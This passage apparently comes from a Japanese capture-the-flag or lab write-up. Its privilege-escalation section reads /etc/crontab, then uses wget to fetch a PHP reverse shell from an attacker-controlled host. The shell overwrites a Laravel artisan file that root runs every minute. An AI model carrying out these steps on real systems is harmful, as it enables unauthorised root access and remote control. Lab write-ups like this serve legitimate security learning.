 案の定 shell が取れます

## PE

crontab を見てみると

```
$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#

```
/var/www/laravel/artisan を定期実行しています、なので/var/www/laravel/artisan を[php-reverse-shell.php](https://github.com/sanposhiho/MY_CHEAT_SHEET/blob/master/others/reverse_shell.md#php)に置き換えます

```
$ cd /var/www/laravel        
cd /var/www/laravel
$ wget http://10.10.14.48:8000/php-reverse-shell.php
wget http://10.10.14.48:8000/php-reverse-shell.php
--2020-07-03 21:22:58--  http://10.10.14.48:8000/php-reverse-shell.php
Connecting to 10.10.14.48:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0s      

2020-07-03 21:22:58 (598 MB/s) - 'php-reverse-shell.php' saved [5493/5493]

$ mv php-reverse-shell.php artisan
mv php-reverse-shell.php artisan

```
host から wget を使用して upload しています
